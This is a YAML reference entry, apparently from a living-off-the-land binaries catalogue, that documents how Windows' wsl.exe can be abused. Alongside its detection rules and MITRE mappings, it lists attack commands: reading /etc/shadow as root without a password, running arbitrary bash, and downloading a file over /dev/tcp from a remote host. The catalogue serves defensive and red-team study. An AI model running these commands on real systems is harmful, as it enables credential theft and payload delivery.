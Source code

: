 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: Matthew Brown
Created: 2019-06-27
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: EXE
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c "{CMD}"
    Description: Executes Linux command (for example via bash) as the default user (unless stated otherwise using `-u <username>`) on the default WSL distro (unless stated otherwise using `-d <distro name>`)
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
    Tags:
      - Execute: CMD
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows Server 2019, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_wsl_lolbin_execution.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Link: https://twitter.com/nas_bench/status/1535431474429808642
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
  - Person: Konrad 'unrooted' Klawikowski
---
```

